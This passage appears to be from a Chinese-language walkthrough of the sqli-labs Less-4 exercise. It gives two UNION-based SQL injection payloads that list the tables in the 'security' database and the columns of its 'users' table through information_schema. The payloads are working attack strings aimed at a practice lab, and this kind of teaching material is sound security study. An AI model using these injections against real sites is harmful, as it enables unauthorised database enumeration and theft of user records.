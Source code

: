 

+ 注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'--+
~~~

![Less-4_9](./img/Less-4_9.PNG)



+ 注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'--+
~~~
